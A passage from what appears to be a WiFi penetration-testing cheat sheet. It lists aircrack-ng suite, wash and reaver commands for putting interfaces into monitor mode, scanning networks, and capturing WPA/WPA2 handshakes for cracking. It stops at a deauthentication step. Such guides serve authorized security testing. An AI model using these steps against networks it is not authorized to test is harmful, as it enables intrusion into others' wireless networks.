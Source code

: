 ```fundamental
airmon-ng check kill
```

Set a wireless network interface back to the managed mode:

```bash
airmon-ng stop wlan0mon

ifconfig wlan0 down && iwconfig wlan0 mode managed && ifconfig wlan0 up
```

Search for WiFi networks within your range:

```fundamental
airodump-ng --wps -w airodump_sweep_results wlan0mon

wash -a -i wlan0mon
```

\[Optional\] Install `reaver/wash` on WiFi Pineapple Mark VII:

```bash
opkg update && opkg install libpcap reaver
```

\[Optional\] Install `reaver/wash` on WiFi Pineapple Nano:

```bash
opkg update && opkg install libpcap && opkg -d sd install wash
```

Monitor a WiFi network to capture handshakes/requests:

```fundamental
airodump-ng wlan0mon --channel 8 -w airodump_essid_results --essid essid --bssid FF:FF:FF:FF:FF:FF
```

If you specified the output file, don't forget to stop `airodump-ng` after you are done monitoring because it will fill up all your free storage space with a large PCAP file.

Use [Kismet](https://github.com/ivan-sincek/evil-twin#additional-kismet) or WiFi Pineapple to find more information about wireless access points, e.g. their MAC address, vendor's name, etc.

## 3. Cracking

Check if a wireless interface supports packet injection:

```fundamental
aireplay-ng --test wlan1 -e essid -a FF:FF:FF:FF:FF:FF
```

### WPA/WPA2 Handshake

Monitor a WiFi network to capture a WPA/WPA2 4-way handshake:

```fundamental
airodump-ng wlan0mon --channel 8 -w airodump_essid_results --essid essid --bssid FF:FF:FF:FF:FF:FF
```

\[Optional\] Deauthenticate clients from a WiFi network:

